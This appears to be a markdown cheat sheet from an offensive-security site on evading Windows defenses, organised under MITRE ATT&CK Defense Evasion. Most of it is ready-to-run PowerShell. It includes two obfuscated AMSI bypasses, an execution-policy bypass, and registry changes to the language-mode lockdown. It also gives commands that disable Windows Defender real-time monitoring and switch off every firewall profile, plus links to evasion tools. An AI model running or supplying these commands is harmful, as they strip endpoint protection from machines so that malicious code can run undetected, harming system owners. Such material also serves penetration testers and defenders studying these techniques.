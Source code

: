 ```yaml
---
layout: post
title: evasion / win
category: 03-evasion
parent: cheatsheets
modified_date: 2023-03-16
permalink: evasion/win
---
```


**Mitre Att&ck Entreprise**: [TA0005 - Defense Evasion](https://attack.mitre.org/tactics/TA0005/)

**Menu**
<!-- vscode-markdown-toc -->
* [amsi](#amsi)
* [applocker](#applocker)
* [edr](#edr)
* [powershell](#powershell)
* [windows-defender](#windows-defender)
* [windows-firewall](#windows-firewall)
* [S3cur3Th1sSh1t](#S3cur3Th1sSh1t)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

**Tools**

<script src="https://code.jquery.com/jquery-1.9.1.min.js"></script>
<script>$(window).load(function() {var repos = ["https://api.github.com/repos/TheWover/DInvoke","https://api.github.com/repos/anonymous300502/Nuke-AMSI","https://api.github.com/repos/OmerYa/Invisi-Shell"]; for (rep in repos) {$.ajax({type: "GET", url: repos[rep], dataType: "json", success: function(result) {$("#repo_list").append("<tr><td><a href='" + result.html_url + "' target='_blank'>" + result.name + "</a></td><td>" + result.pushed_at + "</td><td>" + result.stargazers_count + "</td><td>" + result.subscribers_count + "</td><td>" + result.language + "</td></tr>"); console.log(result);}});}console.log(result);});</script>

<link href="/sortable.css" rel="stylesheet" />
<script src="/sortable.js"></script>
<div id="repos">
    <table id="repo_list" class="sortable">
      <tr><th>_repo</th><th>_last_push</th><th>_stars</th><th>_watch</th><th>_language</th></tr>
    </table>
</div>

## <a name='amsi'></a>amsi 
```powershell
# amsi evasion # 01
# https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

# amsi evasion # 02
S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') +
('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ;
(
Get-
varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"((
"{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f
'.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f
'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"(
( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f
'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}"
-f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
 ```

- [amsi.fails](https://amsi.fails)
- [S3cur3Th1sSh1t](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
- [notes.offsec-journey.com](https://notes.offsec-journey.com/evasion/amsi-bypass)

## <a name='applocker'></a>applocker
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```
## <a name='edr'></a>edr

* [dinvoke](https://hack.technoherder.com/dinvoke/)
* [palo cortex xdr](/edr/defeva#win-xdr)
* [windows defender](/edr/defeva#win-defender)

## <a name='powershell'></a>powershell
```powershell
# powershell execution protection bypass
powershell -ep bypass

# powershell fullLanguage / Constrained language mode
# https://seyptoo.github.io/clm-applocker/
$Env:__PSLockdownPolicy
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v __PSLockdownPolicy
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v __PSLockdownPolicy /t REG_SZ /d ConstrainedLanguage /f
/v fDenyTSConnections /t REG_DWORD /d 1 /f
$ExecutionContext.SessionState.LanguageMode
$ExecutionContext.SessionState.LanguageMode ConstrainedLanguage

# https://github.com/OmerYa/Invisi-Shell
# bypasses all of Powershell security features (ScriptBlock logging, Module logging, Transcription, AMSI) by hooking .Net assemblies
RunWithRegistryNonAdmin.bat
```

## <a name='windows-defender'></a>windows-defender
```powershell
# Windows Defender disabling features
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
Set-MpPreference -DisableIOAVProtection $true
```

## <a name='windows-firewall'></a>windows-firewall
```powershell
# windows firewall showing / disabling config 
netsh advfirewall set allprofiles state off
netsh advfirewall show allprofiles
```

## <a name='S3cur3Th1sSh1t'></a>S3cur3Th1sSh1t
<iframe width="727" height="409" src="https://www.youtube.com/embed/_sPM9Er_194" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
